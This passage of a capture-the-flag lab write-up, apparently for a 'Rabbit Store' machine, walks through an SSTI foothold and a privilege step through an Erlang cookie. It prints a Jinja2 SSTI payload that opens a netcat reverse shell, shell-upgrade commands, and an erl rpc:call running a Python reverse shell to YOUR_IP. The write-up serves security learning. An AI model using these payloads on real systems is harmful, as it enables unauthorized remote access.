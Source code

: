 We will test for an SSTI (Server Side Template Injection) vulnerability. On [HackTricks](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#identify) we find plenty of payloads.

The payload is indeed executed!

![SSTI confirmed](/images/THM-RabbitStore/SSTI_confirmed.png)

## Initial Foothold (shell as azrael)

Although the payload works I am wondering why that is the case :thinking:.

Because this application uses the Express framework and `{{7*7}}` is a payload for `Jinja2 (Python)`.

![Rabbit Store tech stack](/images/THM-RabbitStore/rabbit_store_techstack.png)

We attempt to gain a reverse shell with the following payload:

```
{{ config.__class__.__init__.__globals__['os'].system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP PORT_NUMBER >/tmp/f') }}
```

![SSTI for RCE](/images/THM-RabbitStore/SSTI_RCE.png)

After sending the request we get a shell as `azrael` on our listener. We can also upgrade the shell with the commands below.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
stty rows 38 columns 116
```

![foothold and user flag](/images/THM-RabbitStore/user_flag.png)

### Shell as rabbitmq

Linpeas finds an Erlang file called `.erlang.cookie` in `/var/lib/rabbitmq/`. The file is owned by the `rabbitmq` user.

![Erlang file found](/images/THM-RabbitStore/erlang_file.png)

We recall from our nmap scan that we found ports `4369` and `25672` open.

On [this HackTricks page](https://hacktricks.boitatech.com.br/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#local-connection) we learn a few methods to achieve RCE using the Erlang cookie. However we need to slightly modify the command, instead of `couchdb@localhost` we use `rabbit@forge` (forge is the target hostname).

```
HOME=/ erl -sname kscorpio -setcookie CCOKIE_FOUND


rpc:call('rabbit@forge', os, cmd, ["python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"YOUR_IP\", PORT_NUMBER));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
```
